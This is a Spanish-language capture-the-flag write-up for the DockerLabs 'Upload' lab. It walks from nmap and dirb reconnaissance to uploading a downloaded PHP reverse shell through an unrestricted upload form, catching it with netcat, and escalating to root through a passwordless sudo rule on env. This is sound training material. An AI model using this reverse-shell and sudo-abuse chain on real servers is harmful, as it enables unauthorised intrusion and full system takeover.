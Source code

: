 ```yaml
---
title: Upload
description: DockerLabs es una plataforma gratuita diseñada para practicar hacking ético al alcance de todo el mundo utilizando Docker. DockerLabs ofrece un entorno seguro y accesible para desplegar laboratorios vulnerables de la forma más eficiente y sencilla posible.
date: 2025-06-02
toc: true
pin: false
image:
 path: /assets/img/dockerlabs-writeup-upload/upload_logo.png
categories:
  - Docker_Labs
tags:
  - linux
  - dockerlabs
  - tcp
  - http
  - php
  - rce
  - interactive_tty
  - sudo_abuse
  - information_gathering
  - web_analysis
  - vulnerability_exploitation
  - privilege_escalation

---
```

## Information Gathering

El análisis inicial comienza con el comando ping para confirmar la accesibilidad de la máquina objetivo en la red.

```terminal
/home/kali/Documents/dockerlabs/upload:-$ ping -c 1 172.17.0.3                       
PING 172.17.0.3 (172.17.0.3) 56(84) bytes of data.
64 bytes from 172.17.0.3: icmp_seq=1 ttl=64 time=0.066 ms

--- 172.17.0.3 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.066/0.066/0.066/0.000 ms
```

Realizo un escaneo agresivo de puertos con nmap, lo que me permite identificar rápidamente todos los puertos abiertos.

```terminal
/home/kali/Documents/dockerlabs/upload:-$ nmap -p- --open -sS --min-rate 5000 -vvv 172.17.0.3 -n -Pn -oG nmap1
Host: 172.17.0.3 ()	Status: Up
Host: 172.17.0.3 ()	Ports: 80/open/tcp//http///	Ignored State: closed (65534)
```

Profundizo en los puertos detectados, recopilando información detallada sobre los servicios y versiones en ejecución.

```terminal
/home/kali/Documents/dockerlabs/upload:-$ nmap -sCV -vvv -p80 172.17.0.3 -oN nmap2
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Upload here your file
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
MAC Address: DE:6E:DF:98:83:32 (Unknown)
```

```terminal
/home/kali/Documents/dockerlabs/upload:-$ whatweb 172.17.0.3
http://172.17.0.3 [200 OK] Apache[2.4.52], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[172.17.0.3], Title[Upload here your file]
```

---
## Web Analysis & Vulnerability Exploitation

El servicio web en el puerto 80 presenta un único formulario funcional, que permite subir archivos al servidor Apache. El formulario acepta archivos `.php`, lo que sugiere una posible vía de ejecución remota de código si el archivo es accesible públicamente.

![](assets/img/dockerlabs-writeup-upload/upload1_1.png)

Realizo un escaneo de rutas, lo que permite descubrir el directorio `/uploads/`, el cual está expuesto y accesible.

```terminal
/home/kali/Documents/dockerlabs/upload:-$ dirb http://172.17.0.3/
---- Scanning URL: http://172.17.0.3/ ----
+ http://172.17.0.3/index.html (CODE:200|SIZE:1361)
+ http://172.17.0.3/server-status (CODE:403|SIZE:275)
==> DIRECTORY: http://172.17.0.3/uploads/
```

Descargó la reverse shell de PentestMonkey, modifico la IP y puerto y subo el archivo mediante el formulario.

```terminal
/home/kali/Documents/dockerlabs/upload:-$ wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php -O shell.php
```

Luego de subir la shell, y acceder a `/uploads/` se puede ver que el archivo aparece listado correctamente.

![](assets/img/dockerlabs-writeup-upload/upload1_2.png)


Con esto definido, inicio un listener con netcat.

```terminal
/home/kali/Documents/dockerlabs/upload:-$ nc -lnvp 4321
	listening on [any] 4321 ...
```

Y ejecutó la reverse shell desde la treminal con curl. Esto me otorga acceso remoto con permisos del usuario `www-data`.

```terminal
/home/kali/Documents/dockerlabs/upload:-$ curl http://172.17.0.3/uploads/shell.php

	... connect to [172.17.0.1] from (UNKNOWN) [172.17.0.3] 46044

www-data@07b83fa8d21f:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---
## Privilege Escalation

Para mejorar la interacción, restauro el entorno interactivo para mejorar la visibilidad y control de la shell.

```terminal
www-data@07b83fa8d21f:/$ script /dev/null -c bash
www-data@07b83fa8d21f:/$ ^Z
home/kali/Documents/dockerlabs/upload:-$ stty raw -echo;fg
[2]  + continued  nc -nvlp 4321
				reset xterm

www-data@07b83fa8d21f:/$ export TERM=xterm
www-data@07b83fa8d21f:/$ export SHELL=bash
www-data@07b83fa8d21f:/$ stty rows 36 columns 138
```

Consulto el archivo `/etc/passwd` para identificar otros usuarios del sistema, los cuales poseen shells válidos.

```terminal
www-data@07b83fa8d21f:/$ grep sh$ /etc/passwd
root:x:0:0:root:/root:/bin/bash
```

Los permisos `sudo`, revelan que el binario `/usr/bin/env` puede ejecutarse como `root` sin necesidad de contraseña.

```terminal
www-data@07b83fa8d21f:/$ sudo -l
Matching Defaults entries for www-data on 07b83fa8d21f:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on 07b83fa8d21f:
    (root) NOPASSWD: /usr/bin/env
```

Tal como se documenta en [GTFObins](https://gtfobins.github.io/gtfobins/env/#sudo). Esta configuración permite escalar privilegios a `root` mediante una shell directa con `env`.

```terminal
www-data@07b83fa8d21f:/$ sudo env /bin/bash

root@07b83fa8d21f:/# id
uid=0(root) gid=0(root) groups=0(root)
```
